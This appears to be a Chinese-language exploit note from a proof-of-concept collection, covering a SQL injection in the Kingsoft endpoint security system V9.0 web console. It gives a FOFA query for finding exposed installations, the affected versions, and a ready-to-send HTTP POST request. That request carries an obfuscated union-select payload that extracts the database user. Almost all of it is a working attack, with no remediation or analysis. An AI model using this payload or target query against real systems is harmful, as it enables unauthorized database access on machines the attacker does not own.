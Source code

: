 ## 金山终端安全系统V9.0 SQL注入漏洞

## fofa查询语法
```
app="金山终端安全系统V9.0Web控制台"
```

## 影响版本
金山终端安全系统 V9.0 < V9.SP1.E1008

## POC
```
POST /inter/update_software_info_v2.php HTTP/1.1 
Content-Type: application/x-www-form-urlencoded 
Host: ip:port
Content-Length: 81

type=--1E0union/**/se#lect-1E0,2,1,user(),5,6,7,8--&key=123&pageCount=1&curPage=1
```
